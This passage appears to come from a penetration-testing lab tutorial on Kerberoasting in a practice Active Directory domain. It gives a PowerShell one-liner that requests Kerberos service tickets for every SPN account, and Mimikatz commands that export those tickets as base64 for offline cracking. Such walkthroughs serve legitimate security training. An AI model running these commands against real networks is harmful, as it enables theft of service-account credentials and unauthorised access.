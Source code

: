 
- `Add-Type`: used to add a .NET framework class to our powershell session, which can then be instantiated like any .NET framework object
- `-AssemblyName`: Allows us to specify an assembly that contains type that we are interested in using
- - [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
- We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
- We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session


### Retrieving All Tickets using setspn.exe
```powershell
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

The above command combines the previous command with `setspn.exe` to request tickets for all accounts with SPNs set.

Now that the tickets are loaded, we can use `Mimikatz` to extract the ticket(s) from `memory`.

#### Extracting Tickets From Memory with Mimikatz
```powershell
mimikatz # base64 out:true

mimkatz # kerberos::list /export

<SNIP>

[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFO

[<SNIP>]
```
If we do not specify the `base64 /out:true` command, Mimikatz will extract the tickets and write them to `.kirbi` files. Depending on our position on the network and if we can easily move files to our attack host, this can be easier when we go to crack the tickets. Let's take the base64 blob retrieved above and prepare it for cracking.
